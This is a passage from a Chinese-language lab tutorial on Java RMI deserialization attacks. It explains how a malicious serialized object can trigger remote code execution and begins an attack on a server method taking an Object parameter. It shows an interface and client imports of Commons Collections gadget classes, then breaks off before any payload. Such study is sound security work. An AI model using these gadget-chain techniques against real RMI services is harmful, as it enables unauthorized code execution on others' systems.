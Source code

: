 ```java
}
```

![image-20241125195839023](./main.assets/rmi13.png)

当客户端调用服务端绑定的远程对象的getUser方法时，将反序列化服务端传来的恶意远程对象。此时将触发RCE

## 攻击服务端

### 基于Object参数反序列化攻击

如果服务端的某个方法，传递的参数是Object类型的参数，当服务端接收数据时，就会调用readObject，所以我们可以从这个角度入手来攻击服务端。

我们在User接口中加一个addUser方法，是接收Object类型参数的

```java
package rmi_injection_labs1.service;
import java.rmi.RemoteException;
public interface User extends java.rmi.Remote {
    public Object getUser() throws RemoteException;
    public void addUser(Object user) throws RemoteException;
}
```

在接口有方法的参数为Object类型的情况下，新增以下客户端代码

```java
package rmi_injection_labs1.client;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import rmi_injection_labs1.service.User;
import java.lang.annotation.Documented;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.HashMap;
```